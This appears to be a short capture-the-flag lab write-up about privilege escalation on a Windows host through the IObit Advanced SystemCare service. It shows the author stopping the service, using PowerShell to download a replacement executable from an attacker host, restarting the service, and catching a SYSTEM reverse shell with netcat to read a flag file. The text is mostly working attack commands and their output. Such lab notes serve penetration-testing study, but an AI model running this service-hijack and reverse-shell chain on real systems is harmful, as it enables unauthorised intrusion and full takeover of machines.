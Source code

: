 #stopped + started the service:
sc stop AdvancedSystemCareService9

C:\Program Files (x86)\IObit\Advanced SystemCare>powershell -c "Invoke-WebRequest -OutFile ASCService.exe http://10.11.59.68/Advancing.exe"

sc start AdvancedSystemCareService9


#and we got a root shell on our listening port:)
(kali㉿kali)-[~]
└─$ nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.11.59.68] from (UNKNOWN) [10.10.241.25] 49240
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>woami
woami
'woami' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>



### For reference with the 2 doff shells: ###
#nc on port 4442
C:\Program Files (x86)\IObit\Advanced SystemCare>cd \Users\Administrator
cd \Users\Administrator
Access is denied.

#nc on port 5555:
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80



Starting to feel sliiiightly more comfortable with metasploit :)
